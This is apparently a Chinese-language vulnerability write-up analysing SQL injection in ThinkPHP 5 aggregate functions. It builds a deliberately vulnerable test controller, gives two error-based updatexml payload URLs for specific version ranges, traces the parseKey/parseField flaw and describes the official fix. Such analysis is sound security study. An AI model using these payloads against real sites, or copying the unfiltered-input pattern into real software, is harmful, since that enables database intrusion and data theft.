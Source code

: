# 原创
：  ThinkPH5 SQL注入（Mysql 聚合函数）

# ThinkPH5 SQL注入（Mysql 聚合函数）

#### ThinkPH5 SQL注入（Mysql 聚合函数）

## 漏洞概要

> 



## 初始配置

> 
获取测试环境代码


```
composer create-project --prefer-dist topthink/think=5.1  tpH3rmesk1t

```

> 
将 composer.json 文件的 require 字段设置成如下


```
"require": {
    "php": "&gt;=5.6.0",
    "topthink/framework": "5.1.7"
}

```

> 
然后执行 `composer update`


> 



```
&lt;?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        $options = request()-&gt;get('options');
        $result = db('users')-&gt;max($options);
        var_dump($result);
        return '&lt;style type="text/css"&gt;*{ padding: 0; margin: 0; } div{ padding: 4px 48px;} a{color:#2E5CD5;cursor: pointer;text-decoration: none} a:hover{text-decoration:underline; } body{ background: #fff; font-family: "Century Gothic","Microsoft yahei"; color: #333;font-size:18px;} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.6em; font-size: 42px }&lt;/style&gt;&lt;div style="padding: 24px 48px;"&gt; &lt;h1&gt;:) &lt;/h1&gt;&lt;p&gt; ThinkPHP V5.1&lt;br/&gt;&lt;span style="font-size:30px"&gt;12载初心不改（2006-2018） - 你值得信赖的PHP框架&lt;/span&gt;&lt;/p&gt;&lt;/div&gt;&lt;script type="text/javascript" src="https://tajs.qq.com/stats?sId=64890268" charset="UTF-8"&gt;&lt;/script&gt;&lt;script type="text/javascript" src="https://e.topthink.com/Public/static/client.js"&gt;&lt;/script&gt;&lt;think id="eab4b9f840753f8e7"&gt;&lt;/think&gt;';
    }
}

```

> 
在`config/database.php`文件中配置数据库相关信息，并开启`config/app.php`中的app_debug和app_trace,创建数据库信息如下


```
create database thinkphp;
use thinkphp;
create table users(
	id int primary key auto_increment,
	username varchar(50) not null,
);
insert into users(id,username) values(1,'H3rmesk1t');

```

## 漏洞利用

> 
Payload


```
5.0.0~5.0.21 、 5.1.3～5.1.10
http://127.0.0.1/cms/public/index.php?options=id)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23
5.1.11～5.1.25 
http://127.0.0.1/cms/public/index.php?options=id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23

```

## 漏洞分析

> 
用户可控数据未经过滤，传入 `Query` 类的 `max` 方法进行聚合查询语句构造，接着调用本类的 `aggregate` 方法，本次漏洞问题正是发生在该函数底层代码中，所以所有调用该方法的聚合方法均存在 SQL 注入问题，我们看到 `aggregate` 方法又调用了 `Mysql` 类的 `aggregate` 方法，在该方法中，我们可以明显看到程序将用户可控变量 `$field` 经过 `parseKey` 方法处理后，与 SQL 语句进行了拼接


> 
其余流程和之前的分析差不多，具体看看 `parseKey` 方法


> 
`parseKey` 方法主要是对字段和表名进行处理，这里只是对我们的数据两端都添加了反引号，经过 `parseKey` 方法处理后，程序又回到了上图的 `$this-&gt;value()` 方法中，该方法会调用 `Builder` 类的 `select` 方法来构造 SQL 语句，这个方法应该说是在分析 ThinkPHP 漏洞时，非常常见的了，其无非就是使用 `str_replace` 方法，将变量替换到 SQL 语句模板中，这里重点关注 `parseField` 方法，因为用户可控数据存储在 `$options['field']` 变量中并被传入该方法


> 
进入 `parseField` 方法，我们发现用户可控数据只是经过 `parseKey` 方法处理，并不影响数据，然后直接用逗号拼接，最终直接替换进 SQL 语句模板里，导致 SQL注入漏洞 的发生


## 漏洞修复

> 
官方的修复方法是：当匹配到除了 字母、点号、星号 以外的字符时，就抛出异常


## 攻击总结

> 
参考Mochazz师傅的审计流程

